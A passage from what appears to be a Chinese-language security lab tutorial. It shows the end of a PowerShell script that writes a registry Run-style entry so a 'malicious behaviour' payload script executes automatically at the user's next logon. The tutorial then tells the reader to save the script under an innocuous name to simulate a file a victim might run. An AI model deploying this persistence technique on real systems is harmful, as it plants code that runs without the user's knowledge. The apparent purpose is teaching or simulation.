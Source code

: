 ```powershell
    # 使用 -Force 可以覆蓋同名現有項目
    Set-ItemProperty -Path $RegistryPath -Name $RegistryValueName -Value $CommandToRun -Force -ErrorAction Stop
    Write-Host "  成功設定登錄檔項目 '$RegistryValueName'" -ForegroundColor Green

    # 驗證寫入結果 (可選)
    # Write-Host "`n驗證登錄檔項目內容：" -ForegroundColor Cyan
    # Get-ItemProperty -Path $RegistryPath -Name $RegistryValueName
} catch {
    Write-Error "  無法設定登錄檔項目 '$RegistryValueName'。安裝中止。"
    Write-Error "  錯誤詳情: $($_.Exception.Message)"
    exit 1 # 中止腳本
}

Write-Host "`n[***] 模擬安裝完成！惡意行為腳本已植入並設定為自動執行。" -ForegroundColor Magenta
Write-Host "[***] 下次 '$env:USERNAME' 登入時，酬載腳本將會觸發。" -ForegroundColor Magenta
```

**儲存安裝腳本：**

將以上程式碼儲存為 `install_fun_script.ps1`。可以將它儲存在桌面或下載資料夾，模擬一個使用者可能取得並執行的檔案。

![image-20250407153005541](assets/image-20250407153005541.png)
